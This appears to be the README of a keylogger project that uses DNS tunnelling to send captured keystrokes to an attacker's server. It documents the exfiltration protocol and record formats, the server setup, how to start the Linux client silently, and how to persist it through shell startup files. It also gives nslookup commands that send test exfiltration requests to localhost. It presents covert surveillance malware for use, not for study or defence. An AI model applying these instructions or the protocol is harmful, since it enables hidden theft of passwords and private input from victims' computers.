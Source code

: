# DNS Keylogger
This post-exploitation keylogger will automatically report a Windows computer's keystrokes.

This takes advantage of DNS tunelling/exfiltration.

# Protocol
## Starting a Connection
A record requests starting with `a` indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.
It is in the format of `a.1.1.1.[sld].[tld].`

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## Exfiltrating Data
A record requests starting with `b` indicate exfiltrated data being sent to the server.
It is in the format of `b.[packet #].[id].[data].[sld].[tld].`

`id` is the id that was established on connection. Data is sent as ASCII data in hex.
## Malformed Record Requests
If the client sends an malformed record request, the server will respond with an ip address starting with `201`.
## Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with an IP address starting with `202`.
## Out of Order Packets
Occurs when client sends a packet with packet_id that doesn't match what is expected. The server responds with an IP address starting with `203`. Clients and servers should reset their packet numbers to 0. Then the client can resend the packet.
## Reached Max Connection
If the client attempts to create a connection when the max has reached, the server will respond with an IP address starting with `204`. Clients can keep trying, but until the server is reset, it won't be able to connect.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, resend the same payload.

# Server
## Listens on UDP port 53 for DNS packets
Looks for A record and CNAME record requests. Once an A record has been received, the rest of the data from the client should be CNAME record requests.

# Client
## Linux
The Linux keylogger is two bash scripts. `connection.sh` is used by the `logger.sh` script to send the keystrokes to the server. If you want to manually send data, such as a file, you can pipe data to the `connection.sh` script. It will automatically establish a connection and send the data. 

To start the keylogger, run the command `./logger.sh && exit`. This will silently start the keylogger, and any inputs typed will be sent. `logger.sh` and `connection.sh` must be in the same directory for the keylogger to work. If you want persistance, you can add the command to the .bashrc and/or .bash_profile to start on a new interactive shell or on login.

### Sending Test Requests
You can use `nslookup` to send requests to the server:

`nslookup -query=A a.1.1.1.example.com 127.0.0.1` sends a connection request to localhost.

`nslookup -query=A b.1.1.54686520717569636B2062726F776E20666F782E1B.example.com 127.0.0.1` to send a test message to localhost.

The `sld` can be anything if you're testing on localhost, but you need to put something there.